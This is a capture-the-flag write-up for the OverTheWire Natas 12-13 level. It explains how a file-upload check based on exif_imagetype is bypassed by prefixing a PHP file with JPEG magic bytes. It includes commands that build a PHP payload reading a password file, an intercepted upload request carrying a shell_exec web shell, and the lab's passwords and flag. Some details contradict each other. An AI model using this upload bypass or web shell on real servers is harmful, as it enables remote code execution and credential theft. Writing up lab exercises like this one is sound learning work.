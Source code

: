# CTF Writeup - **OverTheWire Natas12 - Natas13**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas12 - Natas13
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 11-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use inspect element to troubleshoot and find the flag.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas13
Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
URL:      http://natas13.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for image as input.  But we dont know anything about it, So lets input some random image and check it out. 

```bash
For security reasons, we now only accept image files!
Choose a JPEG to upload (max 1KB):
|Choose File|  No file chosen
Upload File  
```

Now we need to find the image to input to get the flag. Let view the source code. 

```bash
<?php

# function genRandomString() {
#     $length = 10;
#     $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
#     $string = "";

#     for ($p = 0; $p < $length; $p++) {
#         $string .= $characters[mt_rand(0, strlen($characters)-1)];
#     }

#     return $string;
# }

# function makeRandomPath($dir, $ext) {
#     do {
#     $path = $dir."/".genRandomString().".".$ext;
#     } while(file_exists($path));
#     return $path;
# }

# function makeRandomPathFromFilename($dir, $fn) {
#     $ext = pathinfo($fn, PATHINFO_EXTENSION);
#     return makeRandomPath($dir, $ext);
# }

# if(array_key_exists("filename", $_POST)) {
#     $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

#     $err=$_FILES['uploadedfile']['error'];
#     if($err){
#         if($err === 2){
#             echo "The uploaded file exceeds MAX_FILE_SIZE";
#         } else{
#             echo "Something went wrong :/";
#         }
#     } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
#         echo "File is too big";
#     } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
#         echo "File is not an image";
#     } else {
#         if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
#             echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
#         } else{
#             echo "There was an error uploading the file, please try again!";
#         }
#     }
# } else {
# ?>
```

We can see that there is a form which takes our input, and when we submit the input there is a php code which gets executed on the input, Where there are 3 main function, `genRandomString` is the function that has generates a random string with 10 characters. `makeRandomPath` function takes the directory and the files extension and then creates the path with the random string for example `upload/12345abcde.jpg` file is created. `makeRandomPathFromFilename` whenever the files is uploaded this funciton creates a path in the directory with the previous funciton and then copies the uploaded file to that path. We can see that in the `html` there is some check for jpg files. This is interesting for us, as we can now upload a php code as if it was a jpg file. `exif_imagetype` command is particularly interesting as i found out that this function reads the first 4 bytes of a file to determine if its jpg file or not. We can take advantage of this by writing the 4 bytes that the function expects to the php file as shown below where `0xFF, 0xD8, 0xFF, 0xE0` are the first 4 bytes. The next thing we need is the password that is stored int the  `/etc/natas_webpass/natas14`, for that we can also append another code as shown below. It will print the password whenever it gets executed. 

```bash
# Create a php file with using command line(Below commands are for windows).
powershell -Command "[IO.File]::WriteAllBytes('abc.php', [byte[]](0xFF, 0xD8, 0xFF, 0xE0))"
'<?php $p = file_get_contents("/etc/natas_webpass/natas14"); echo $p; ?>' | Out-File -FilePath abc.php -Append -Encoding ascii

# Create a php file with using command line(Below commands are for Linux).
echo -e "\xFF\xD8\xFF\xE0" > image.php
echo -n '<?php $p = file_get_contents("/etc/natas_webpass/natas14"); echo $p; ?>' >> image.php

```

Now, that we have the php file which resembles jpg, we can upload this file to the server and try to get the password of the next level. Before uploading we need to check how its sent to the server so start the burpsuite with the intercept on and then upload the file and submit it. We can see that the file is getting saved as `zzkcpd7s0d.jpg` so we need to change it as `zzkcpd7s0d.php` before forwarding. 

```bash
# POST /index.php HTTP/1.1
# Host: natas12.natas.labs.overthewire.org
# Content-Length: 461
# Cache-Control: max-age=0
# Authorization: Basic bmF0YXMxMjp5WmRrakFZWlJkM1I3dHE3VDVrWE1qTUpsT0lrekRlQg==
# Accept-Language: en-US,en;q=0.9
# Origin: http://natas13.natas.labs.overthewire.org
# Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysR3wS37InhEs5eFb
# Upgrade-Insecure-Requests: 1
# User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
# Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
# Referer: http://natas12.natas.labs.overthewire.org/
# Accept-Encoding: gzip, deflate, br
# Connection: keep-alive

# ------WebKitFormBoundarysR3wS37InhEs5eFb
# Content-Disposition: form-data; name="MAX_FILE_SIZE"

# 1000
# ------WebKitFormBoundarysR3wS37InhEs5eFb
# Content-Disposition: form-data; name="filename"

 zzkcpd7s0d.jpg
# ------WebKitFormBoundarysR3wS37InhEs5eFb
# Content-Disposition: form-data; name="uploadedfile"; filename="abc.php"
# Content-Type: application/octet-stream

# <?php echo shell_exec($_GET['e'].' 2>&1'); ?>
# ------WebKitFormBoundarysR3wS37InhEs5eFb--
```

After forward the request we can see that the `The file upload/v6lm2uilp9.php has been uploaded` message getting displayed. Now lets try to access this php file through the browser by clicking the uploaded file. Once we do that we can see that the url is `http://natas13.natas.labs.overthewire.org/upload/v6lm2uilp9.php` and the message is `����z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`. Here it is very clear that the first 4 bytes are the data that we appended in the php to make it similar to jpg, and the next few charaters are the contents of the `/etc/natas_webpass/natas14`.


```bash
http://natas13.natas.labs.overthewire.org/upload/63soe1oshi.php
# The password for natas14 is z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```

## Flag

**Flag:** z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

---

## Lessons Learned

It was a very hard challenge. It took me more time to understand and it was also a pain as the php is deleted by the antivirus. 